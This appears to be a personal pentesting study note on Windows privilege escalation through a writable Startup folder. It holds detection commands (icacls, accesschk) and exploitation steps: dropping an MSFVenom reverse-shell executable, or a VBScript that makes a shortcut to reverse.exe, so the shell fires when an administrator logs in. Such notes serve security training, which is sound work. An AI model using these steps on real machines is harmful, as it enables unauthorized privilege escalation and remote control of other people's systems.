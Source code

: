 ```yaml
---
category: Uncategorized
tags: []
---
```

| MASK | PERMISSIONS |  
| ----------- | ----------- |  
| F | Full access |  
| M | Modify access |
| RX | Rad and execute access |  
| R | Read-only access |
| W | Write-only access |

**Detection**  

 Open command prompt and type: 
 
```command prompt - windows 
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

From the output notice that the `BUILTIN\Users` group has full access ‘(F)’ to the directory.

**Exploitation**

[[1._Reverse Shells (WIN)#MSFVenom]]  

Copy the generated file, x.exe, to the Windows target.

Place x.exe in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`.  

Logoff.  

Login with the administrator account credentials.

Wait for a session to be created, it may take a few seconds.  


#### Malicious file
CreateShortcut.vbs

```command prompt - windows
Set oWS = WScript.CreateObject("WScript.Shell")

sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"

Set oLink = oWS.CreateShortcut(sLinkFile)

oLink.TargetPath = "C:\PrivEsc\reverse.exe"

oLink.Save
```

1. Use accesschk.exe to check permissions on the StartUp directory:

```command prompt - windows
.\accesschk64.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

2. Note that the BUILTIN\Users group has write access to this directory.

3. Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.

4. Run the script using cscript:

```command prompt - windows
cscript CreateShortcut.vbs
```

5. Start a listener on Kali, then log in as the admin user to trigger the exploit.

![[rlwrap]]